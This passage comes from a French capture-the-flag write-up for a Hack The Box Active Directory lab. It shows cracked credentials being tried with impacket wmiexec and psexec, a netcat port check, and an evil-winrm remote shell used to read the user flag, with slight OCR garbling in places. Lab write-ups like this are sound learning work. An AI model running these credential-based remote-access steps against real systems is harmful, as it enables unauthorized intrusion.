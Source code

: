 ```
Candidates.#1....: s523513859 -> s27041994
Hardware.Mon.#1..: Temp: 41c Util: 55%

Started: Fri Feb 23 19:20:57 2024
Stopped: Fri Feb 23 19:21:00 2024

```

Voila maintenant qu'on a un user et un mot de passe, alors quoi faire ?

Ouvert Ok, je vais alors essayer de me connecter sur cette machine avec cet utilisateur avec `wmiexec` ou `psexec`
```
└─# impacket-wmiexec htb.local/svc-alfresco:s3rvice@10.129.4.45
Impacket v0.12.0.dev1+20231114.165227.4b56c18a - Copyright 2023 Fortra

[*] SMBv3.0 dialect used
[-] rpc_s_access_denied
```

```
└─# impacket-psexec htb.local/svc-alfresco:s3rvice@10.129.4.45
Impacket v0.12.0.dev1+20231114.165227.4b56c18a - Copyright 2023 Fortra

[*] Requesting shares on 10.129.4.45.....
[-] share 'ADMIN$' is not writable.
[-] share 'C$' is not writable.
[-] share 'NETLOGON' is not writable.
[-] share 'SYSVOL' is not writable.

```
Avec ces outils ca ne mache pas. Alors je vais voir le winrm
```
└─# nc -nv 10.129.4.45 5985
(UNKNOWN) [10.129.4.45] 5985 (?) open
```

```
└─# evil-winrm -i 10.129.4.45 -u svc-alfresco -p s3rvice

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents>
    Directory: C:\Users\svc-alfresco\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        2/23/2024   4:25 PM             34 user.txt


type us*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> type user.txt
d2db9c31a75f19c98fd0cf5cae746784
```
